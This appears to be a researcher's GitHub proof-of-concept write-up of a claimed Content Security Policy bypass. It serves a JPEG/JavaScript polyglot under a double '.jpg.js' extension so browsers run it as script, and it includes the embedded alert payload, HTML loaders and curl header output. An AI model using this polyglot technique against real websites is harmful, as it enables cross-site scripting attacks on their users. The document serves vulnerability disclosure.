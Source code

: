 # Bypass CSP against MIME Confusion Attack

Major browsers have implemented Content Security Policy against MIME confusion attacks since 2018, reported by CVE-2018-5164 and CVE-2019-19916 (my report) which use polyglot image files (GIF, JPG ...) with embedded JavaScript code (as described here: https://blog.mozilla.org/security/2016/08/26/mitigating-mime-confusion-attacks-in-firefox/ and here https://github.com/V1n1v131r4/MIME-Confusion-Attack-on-Midori-Browser).

But based on my studies I found a way to bypass CSP and perform Cross-Site Script (XSS) attacks by exploiting the MIME Type of the HTTP header.


## Proof of concept Step-by-step

The image used in this PoC is as follows

![alt](https://ciber.sejalivre.org/WP/2x.jpg)


Available here: http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg


These are the image strings with the embedded JS code:

![alt](https://ciber.sejalivre.org/WP/xxd.png)


The inline JavaScript code was this:
```
*/=alert("Burp rocks.")/*
```

The PoC website is hosted at: 

* Scenario 1: http://joomla.sejalivre.org/index.html

* Scenario 2: http://joomla.sejalivre.org/index2.html


## Scenario 1

CSP's correct behavior in HTTP MIME Type is not to allow an image file with embedded JavaScript code to be read as script, as below the HTML/JS code below:

```
<html>
     <img src="2x.jpg">
	   <script src="2x.jpg"></script>
 </html>
```

Below is the browser blocking MIME confusion attack via its Content Security Policy:

![alt](https://ciber.sejalivre.org/WP/console1.png)


## Scenario 2 - The Bypass

I managed to bypass CSP by stating more than one extension in the image file with embedded JavaScript code, like this:

```
<html>
     <img src="2x.jpg.js">
	   <script src="2x.jpg.js"></script>
 </html>
```

So the image continues to be read as script by `<script>` tag and as image by `<img>` tag.

Note that the image file is the same as both scenarios, only its extension has been changed.

Below is the browser allowing MIME confusion attack by bypass in your Content Security Policy

![alt](https://ciber.sejalivre.org/WP/console2.png)






Here are HTTP Response on both scenarios:

```
$ curl -I http://joomla.sejalivre.org/2x.jpg
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2019 06:26:44 GMT
Content-Type: image/jpeg
Content-Length: 3318
Connection: keep-alive
Last-Modified: Thu, 19 Dec 2019 20:38:08 GMT
Expires: Thu, 20 Feb 2020 06:26:44 GMT
Cache-Control: max-age=5184000
Pragma: public
Accept-Ranges: bytes
```

```
$ curl -I http://joomla.sejalivre.org/2x.jpg.js
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2019 06:26:12 GMT
Content-Type: application/javascript
Content-Length: 3318
Connection: keep-alive
Vary: Accept-Encoding
Last-Modified: Fri, 20 Dec 2019 21:27:54 GMT
Expires: Tue, 21 Jan 2020 06:26:12 GMT
Cache-Control: max-age=2592000
Pragma: public
Accept-Ranges: bytes
```


In the first scenario webserver sends the image as Content-Type:image/jpeg.  In the second it is sent as Content-Type:application/javascript due to the change of file extension.

## Browsers and servers tested

This PoC has been tested on the following scenarios:

* Nginx (on cPanel 82)
* Apache 2.4.41
* Mozilla Firefox < 71.0 (Windows, Linux and Android)
* Google Chrome < 79.0.3945.88 (Windows, Linux and Android)
* Google Chromium < 81.0.4003.0 (Windows and Linux)
* Apple Safari 13.0.4 < (MacOS Catalina)
* Opera 60 - R3 < (Windows and Linux)
* Microsoft Edge < 44.18362.449.0 (Windows 10)
* Microsoft Internet Explorer < 11 (Windows 10)


## Screenshots

Below are some screenshots of PoC

Google Chrome
![alt](https://ciber.sejalivre.org/WP/chrome.png)

Google Chromium
![alt](https://ciber.sejalivre.org/WP/chromium.png)

Mozilla Firefox
![alt](https://ciber.sejalivre.org/WP/Firefox.png)

Opera
![alt](https://ciber.sejalivre.org/WP/opera.png)

Safari
![alt](https://ciber.sejalivre.org/WP/Safari.jpeg)

Edge
![alt](https://ciber.sejalivre.org/WP/edge.png)

IE
![alt](https://ciber.sejalivre.org/WP/IE.png)

